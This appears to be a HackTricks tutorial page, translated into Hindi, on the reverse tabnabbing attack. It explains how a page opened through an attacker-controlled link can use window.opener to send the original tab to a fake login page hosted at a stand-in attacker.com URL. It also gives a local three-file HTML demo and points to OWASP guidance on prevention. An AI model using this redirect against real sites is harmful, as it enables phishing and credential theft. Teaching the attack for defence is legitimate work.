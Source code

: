 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Description

एक स्थिति में जहां एक **हमलावर** **`href`** तर्क को **`<a`** टैग के साथ नियंत्रित कर सकता है जिसमें विशेषता **`target="_blank" rel="opener"`** है जिसे एक पीड़ित द्वारा क्लिक किया जाएगा, **हमलावर** इस **लिंक** को एक वेब पर इंगित करता है जो उसके नियंत्रण में है (एक **दुष्ट** **वेबसाइट**)। फिर, जब **पीड़ित लिंक पर क्लिक करता है** और हमलावर की वेबसाइट तक पहुंचता है, तो यह **दुष्ट** **वेबसाइट** **`window.opener`** जावास्क्रिप्ट ऑब्जेक्ट के माध्यम से **मूल** **पृष्ठ** को **नियंत्रित** करने में सक्षम होगी।\
यदि पृष्ठ में **`rel="opener"` नहीं है लेकिन `target="_blank"` है और `rel="noopener"` नहीं है** तो यह भी कमजोर हो सकता है।

इस व्यवहार का दुरुपयोग करने का एक सामान्य तरीका होगा **मूल वेब का स्थान बदलना** `window.opener.location = https://attacker.com/victim.html` एक ऐसी वेब पर जो हमलावर द्वारा नियंत्रित है जो **मूल एक की तरह दिखती है**, ताकि यह **मूल वेबसाइट** के **लॉगिन** **फॉर्म** की **नकल** कर सके और उपयोगकर्ता से क्रेडेंशियल्स मांग सके।

हालांकि, ध्यान दें कि चूंकि **हमलावर अब मूल वेबसाइट के विंडो ऑब्जेक्ट को नियंत्रित कर सकता है**, वह इसे अन्य तरीकों से **गुप्त हमलों** को करने के लिए दुरुपयोग कर सकता है (शायद जावास्क्रिप्ट घटनाओं को संशोधित करके जानकारी को उसके द्वारा नियंत्रित सर्वर पर निकालना?)

# Overview

## With back link

जब रोकथाम विशेषता का उपयोग नहीं किया जाता है तो माता-पिता और बच्चे के पृष्ठों के बीच लिंक:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## Without back link

जब रोकथाम विशेषता का उपयोग किया जाता है तो माता-पिता और बच्चे के पृष्ठों के बीच लिंक:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## Examples <a href="#examples" id="examples"></a>

एक फ़ोल्डर में निम्नलिखित पृष्ठ बनाएं और `python3 -m http.server` के साथ एक वेब सर्वर चलाएं\
फिर, **पहुँचें** `http://127.0.0.1:8000/`vulnerable.html, **क्लिक करें** लिंक पर और नोट करें कि **मूल** **वेबसाइट** **यूआरएल** **कैसे बदलता है**।

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## Accessible properties <a href="#accessible-properties" id="accessible-properties"></a>

उस परिदृश्य में जहां **cross-origin** पहुँच होती है (विभिन्न डोमेन के बीच पहुँच), **opener** जावास्क्रिप्ट ऑब्जेक्ट संदर्भ द्वारा संदर्भित **window** जावास्क्रिप्ट क्लास इंस्टेंस की विशेषताएँ, जिन्हें एक दुर्भावनापूर्ण साइट द्वारा पहुँचा जा सकता है, निम्नलिखित तक सीमित हैं:

- **`opener.closed`**: इस विशेषता का उपयोग यह निर्धारित करने के लिए किया जाता है कि क्या एक विंडो बंद हो गई है, जो एक बूलियन मान लौटाती है।
- **`opener.frames`**: यह विशेषता वर्तमान विंडो के भीतर सभी iframe तत्वों तक पहुँच प्रदान करती है।
- **`opener.length`**: वर्तमान विंडो में मौजूद iframe तत्वों की संख्या इस विशेषता द्वारा लौटाई जाती है।
- **`opener.opener`**: इस विशेषता के माध्यम से वर्तमान विंडो को खोलने वाली विंडो का संदर्भ प्राप्त किया जा सकता है।
- **`opener.parent`**: यह विशेषता वर्तमान विंडो के माता-पिता विंडो को लौटाती है।
- **`opener.self`**: वर्तमान विंडो तक पहुँच इस विशेषता द्वारा प्रदान की जाती है।
- **`opener.top`**: यह विशेषता सबसे ऊपरी ब्राउज़र विंडो को लौटाती है।

हालांकि, उन उदाहरणों में जहां डोमेन समान होते हैं, दुर्भावनापूर्ण साइट को [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) जावास्क्रिप्ट ऑब्जेक्ट संदर्भ द्वारा उजागर की गई सभी विशेषताओं तक पहुँच मिलती है।

# Prevention

रोकथाम की जानकारी [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing) में दस्तावेज़ित की गई है।

## References

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
